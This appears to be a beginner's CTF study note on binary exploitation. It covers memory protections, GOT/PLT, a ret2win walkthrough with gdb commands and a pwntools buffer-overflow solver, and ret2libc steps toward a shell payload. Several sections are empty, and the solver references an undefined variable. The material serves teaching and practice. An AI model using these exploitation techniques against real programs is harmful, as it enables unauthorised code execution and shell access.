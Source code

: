 # Binary Exploitation

What is dat thing? 

The objective is to exploit the binary on certain functions to obtain flag / shell.


# Register

Register is a location which data is stored.

Reserved Register:

    x64: RIP (Instruction pointer) & RSP (Stack Pointer)

What is the difference between x64 and x86?
the sizes of the register.

- RAX = x64 (64 bit)
- EAX = x86 (32 bit)
- AX = (16 bit)
- AL = (8 bit)

# Stack

What is stack? the opposite of Queue.

Lets say there is a number like this.

    [1,2,3,4]

Then 5 will come into the array, which number will be called first with stack concept?

    [1,2,3,4,5]

    call: 1?

    call: 5?


# Binary Security

- PIE (Position Independent Code) / ASLR (Address Space Layout Randomisation): Everytime you run the file, will be loaded into a different memory 
addresses. 

    - Enabled (Random address - can't hardcode value)
    - Disabled (Fixed address)

    How to bypass:
    - Leaking some address to get the Base address. 

- Canary: Protection to prevent buffer overflow attack. Will reside in the last 16 bytes of the stack before Instruction Pointer. ends with "00"


- NX: All input is stored as data, if you insist to run instructions it will crash the program.
    
    - Enabled (Can't spawn shellcode)
    - Disabled (Can spawn shellcode)

- RELRO (Relocation Read Only): stop GOT (Global Offset Table) overwrite.

    - Partial: will ONLY affect GOT, unlike the other version, this is not recommended if you want to build a secure binary. 
    - Full: will affect both the GOT and PLT to be read-only, this make sure that the attackers won’t be able to overwrite the GOT and PLT.


# GOT & PLT
These are sections on ELF file that deal with large portion of dynamic linking. What is dynamic linking? basically it will reduce the size of the binary by removing unnecessary function.

As an example, PUTS function on ELF file won't carry their own version, instead it will dynamically link the PUTS version based on the host library.

- GOT (Global Offset Table)
- PLT (Procedure Linkage Table)

When we call puts, it's not directly calling puts() instead it's calling puts@plt.

ELF will jump to the PLT entry of puts, then it will search the address of GOT entry of puts, if available it will jump into it. On the other hand, it will  resolve and jump there.

This will be used on Ret2Libc attack which will leak the PLT entry address for desirable libc.

# Ret2Win

Ret2win is a challenge where the win() / equivalent function is available, you must redirect the return address to win function.

So you must overwrite the RIP / EIP with the exact win entry address.

1. Find the padding (trigger segmentation fault) with 
```
gdb [binary]
pattern create
run
[paste the pattern]
pattern search $rsp
```
2. Find the win() address, either with disassembler or gdb (get the `push RBP xxxxx` or `MOV rbp,rsp`)

```
gdb [binary]
info func
disass win
```

3. Find ret address with `ROPgadget --binary [binary]`


4. Create the solver with pwntools.

```
from pwn import *

binary = "./binary"
elf = context.binary = ELF(binary)
p = process(binary)
#p = remote('10.10.10.10',1234) #netcat connection

ret = p64(0x00400116)

payload = b"A"*40 
payload += ret #stack alignment 
payload += win

p.sendline(payload)
p.interactive()
```


# Integer Under/Overflow
exceed the limit of integer (-2,147,483,647 - 2,147,483,647)

# Format String Attack

# Calling Convention

# Ret2Shellcode

# Ret2Syscall


# Ret2Libc
## Finding libc file

`ldd [binary]`

```
ldd vuln-64 
        linux-vdso.so.1 (0x00007ffcfa726000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa4699bc000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fa469bbc000)

```

## Patching binary

If the challenge provide the libc.so.6 or ld files you could patch the binary with `pwninit` and `patchelf`

- Install patchelf (`apt-get install patchelf`)
- Download pwninit (https://github.com/io12/pwninit/releases)

Patch with `/opt/pwninit --bin [binary] --libc [libc.so.6] --ld [ld file]`

## Find leak(s)

- Search usable GOT and PLT
- Calculate the offset of the leaked GOT (leak - libc.symbols["puts"]) and set `libc.address`
- Find the str_bin_sh and system
- Recheck the address with `pause()` and `x/s [address]`
  - libc base address: ELF
- Return to main again to send the attack payload `padding + ret + bin_sh + system`
